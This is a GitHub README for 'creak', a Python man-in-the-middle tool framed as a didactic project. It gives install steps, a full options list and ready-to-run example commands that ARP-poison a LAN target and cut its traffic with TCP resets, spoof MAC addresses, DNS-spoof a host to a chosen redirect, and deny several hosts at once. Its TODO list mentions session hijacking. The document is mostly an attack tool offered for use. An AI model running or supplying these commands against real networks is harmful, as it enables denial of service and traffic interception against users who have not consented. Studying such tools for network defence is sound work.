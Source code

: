 # creak

Perform some MITM attacks to a range of addresses. Among these, deny navigation
and download capabilities of a target host in the local network performing an
ARP poison attack and sending reset TCP packets to every request made to the
router.
Born as a didactic project for learning python language, i decline every
responsibility for any abuse or illegal uses.

## Installation

```sh
$ git clone https://github.com/codepr/creak.git
$ cd creak
$ python setup.py install
```
or simply clone the repository and run the `creak.py` after all requirements are
installed:

```sh
$ git clone https://github.com/codepr/creak.git
```

It is required to have installed `pcap` libraries for raw packet manipulations
and `dpkt` module, for dns spoofing options is required to have installed dnet
module from `libdnet` package, do not confuse it with pydnet (network evaluation
tool) module.
It can use also `scapy` if desired, can just be set in the `config.py` file.

## Options

```sh
Usage: creak.py [options] dev

Options:
  -h, --help           show this help message and exit
  -1, --sessions-scan  Sessions scan mode
  -2, --dns-spoof      Dns spoofing
  -x, --spoof          Spoof mode, generate a fake MAC address to be used
                       during attack
  -m MACADDR           Mac address octet prefix (could be an entire MAC
                       address in the form AA:BB:CC:DD:EE:FF)
  -M MANUFACTURER      Manufacturer of the wireless device, for retrieving a
                       manufactur based prefix for MAC spoof
  -s SOURCE            Source ip address (e.g. a class C address like
                       192.168.1.150) usually the router address
  -t TARGET            Target ip address (e.g. a class C address like
                       192.168.1.150), can be specified multiple times
  -p PORT              Target port to shutdown
  -a HOST              Target host that will be redirect while navigating on
                       target machine
  -r REDIR             Target redirection that will be fetched instead of host
                       on the target machine
  -v, --verbose        Verbose output mode
  -d, --dotted         Dotted output mode
```

## Example

Most basic usage:
Deny all traffic to the target host

```sh
$ python creak.py -t 192.168.1.30 wlan0
```

Set a different gateway:

```sh
$ python creak.py -s 192.168.1.2 -t 192.168.1.30 wlan0
```

Set a different mac address for the device:

```sh
$ python creak.py -m 00:11:22:33:44:55 -t 192.168.1.30 wlan0
```

Spoof mac address generating a fake one:

```sh
$ python creak.py -x -t 192.168.1.30 wlan0
```

Spoof mac address generating one based on manufacturer(e.g Xeros):

```sh
$ python creak.py -x -M xeros -t 192.168.1.30 wlan0
```

DNS spoofing using a fake MAC address, redirecting ab.xy to cd.xz(e.g.
		localhost):

```sh
$ python creak.py -x -M xeros -t 192.168.1.30 -a www.ab.xy -r www.cd.xz wlan0
```

Deny multiple hosts in the subnet:

```sh
$ python creak.py -x -t 192.168.1.30 -t 192.168.1.31 -t 192.168.1.32 wlan0
```

## Changelog

See the [CHANGELOG](CHANGELOG.md) file.

## TODO

- Complete `Scapy` support
- Sessions grouping based on active load usage
- Sessions hijacking

## License

See the [LICENSE](LICENSE.md) file for license rights and limitations (GNU v3).
